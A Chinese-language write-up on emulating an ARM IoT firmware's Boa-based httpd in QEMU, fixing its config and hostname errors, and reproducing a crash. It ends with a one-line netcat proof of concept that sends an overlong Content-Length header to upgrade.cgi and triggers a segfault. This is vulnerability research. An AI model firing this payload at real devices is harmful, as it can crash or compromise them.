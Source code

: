 一个arm 32位小端文件系统，使用qemu模拟arm系统，`launsh.sh`启动qemu虚拟机，`launsh.sh`对应的命令为：

```bash
$ cat ~/work/iot/qemu-vm/armhf/launch.sh
sudo qemu-system-arm -M vexpress-a9 -kernel vmlinuz-3.2.0-4-vexpress -initrd initrd.img-3.2.0-4-vexpress -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 -append "root=/dev/mmcblk0p2" -net nic -net tap -nographic

```

qemu虚拟机起来以后，使用http服务把文件系统传到qemu虚拟机里面。然后使用以下命令切换到文件系统中：

```bash
mount -o bind /dev ./squashfs-root/dev/
mount -t proc /proc/ ./squashfs-root/proc/
chroot squashfs-root sh # 切换根目录后执行新目录结构下的 sh shell
```

然后运行`httpd`，首先会报`Could not open boa.conf for reading`的错误，将httpd拖到IDA里面，找到该字符的交叉引用，发现程序尝试打开`/etc/conf.d/boa/boa.conf`配置文件，在固件的相应目录中，看到其`/etc/conf.d`是指向`../mnt/flash/etc/auto.conf`的链接，发现该目录没有那个文件夹。

在文件系统里面搜索该配置文件，在`./_31.extracted/defconf/_CC8160.tar.bz2.extracted/_0.extracted/etc/conf.d/boa/boa.conf`，把该`/etc`目录拷到`../mnt/flash/`目录下面，即可修复该问题。

然后继续运行`httpd`会发现另一个问题，即`gethostbyname:: Success`，继续在IDA里面看交叉引用，相应代码如下：

```c
 if ( gethostname((char *)&rlimits, 0x64u) == -1 )
    {
      perror("gethostname:");
      exit(1);
    }
    host_struct = gethostbyname((const char *)&rlimits);
    if ( !host_struct )
    {
      perror("gethostbyname:");
      exit(1);
    }
```

可以看到是`gethostbyname`，应该是qemu虚拟机和固件的系统的`host name`不一样，导致无法获取。Linux 操作系统的 hostname 是一个 kernel 变量，可以通过 hostname 命令来查看本机的 hostname。将二者的`/etc/hosts`改成一样就可以了。

能过运行起来以后，httpd -h，可以看到httpd运行的参数。可以使用`httpd -l 32768`参数显示最多的调试信息。

运行起来以后，使用poc验证漏洞：

```bash
$ echo -en "POST /cgi-bin/admin/upgrade.cgi HTTP/1.0\nContent-Length:AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIXXXX\n\r\n\r\n"  | nc -v 172.16.217.149 80
```

看到崩溃的产生：

```bash
/ # req->iCount++= 1
[05/Jul/2019:00:18:20 +0000] caught SIGSEGV, dumping core in /tmp
```
